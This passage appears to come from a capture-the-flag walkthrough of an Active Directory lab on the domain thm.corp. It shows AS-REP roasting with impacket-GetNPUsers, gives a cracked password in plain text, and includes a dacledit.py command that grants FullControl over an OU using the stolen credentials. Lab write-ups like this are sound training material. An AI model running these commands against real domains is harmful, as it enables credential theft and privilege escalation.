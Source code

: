 
- Made more enumeration and found AsRepRoastable users in which user `ERNESTO_SILVA@THM.CORP` is an high value target


![](https://i.imgur.com/Wc2ZJh6.png)


- Using `Impacket-GetNPUsers` we can go ahead and retrive the `krb5asrep` hash for each users respectively


```
impacket-GetNPUsers -request -format john -no-pass thm.corp/ERNESTO_SILVA
```



![](https://i.imgur.com/PFguT4k.png)



- Unfortunately, the only user in which their hash could be cracked is `TABATHA_BRITT`




![](https://i.imgur.com/KGTwrkL.png)



```
marlboro(1985):TABATHA_BRITT@THM.CORP
```



looks like `TABATHA_BRITT` can also do the job



![](https://i.imgur.com/rip6LkW.png)



Got same **access denied** error and i couldn't load tools, even using `dacledit.py` gave me alot of errors, Here are 2 resource to help if you wanna go down this path though -:


1. [https://www.adamcouch.co.uk/dacl-trouble-genericall-on-ous/](https://www.adamcouch.co.uk/dacl-trouble-genericall-on-ous/)
2. [Youtube_Installing_dacledit.py_In_Kali_Linux](https://www.youtube.com/watch?v=O_VeRoT1f1k)



```bash
./dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'CECILE_WONG' -target-dn 'OU=SERVICEACCOUNTS,OU=FSR,OU=TIER 2,DC=THM,DC=CORP' HAYSTACK.THM.CORP/TABATHA_BRITT:'marlboro(1985)'
```



![](https://i.imgur.com/x9HbtR0.png)


